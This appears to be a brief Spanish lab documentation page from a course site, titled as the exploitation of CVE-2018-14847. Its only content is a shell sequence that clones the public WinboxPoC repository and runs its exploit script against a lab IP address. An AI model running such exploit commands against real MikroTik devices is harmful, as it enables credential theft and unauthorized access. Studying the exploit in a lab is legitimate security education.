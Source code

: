 ```yaml
---
theme: "just-the-docs"
title: "WinboxPoC"
layout: default
nav_order: 9
parent: "ARRAY DIINF 2024"
---
```

---
# Explotacion CVE-2018-14847
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/BasuCert/WinboxPoC.git
cd WinboxPoC
python3 WinboxExploit.py 192.168.85.134
```
